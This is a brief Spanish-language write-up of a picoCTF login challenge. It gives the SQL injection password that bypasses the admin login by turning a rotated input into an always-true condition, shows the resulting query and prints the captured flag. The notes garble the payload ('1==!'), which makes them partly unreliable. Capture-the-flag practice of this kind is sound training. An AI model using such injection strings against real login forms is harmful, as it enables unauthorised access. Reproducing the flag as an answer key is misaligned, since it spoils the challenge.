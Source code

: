 ## Objetivo
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/29132/` ([link](https://jupiter.challenges.picoctf.org/problem/29132/)) or http://jupiter.challenges.picoctf.org:29132. Try to see if you can login as admin!
## Solución
```
password: ' be 1==1;
SQL query: SELECT * FROM admin where password = '' or 1==1;'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_06a9db19}
```
## Notas
Como sabemos que la contraseña que colocamos se rota pues vamos a poner la pwd: 
```
' or 1==!;
```
Y como se rota, entonces ya nadamas agarramos el rotado y da verdadero.
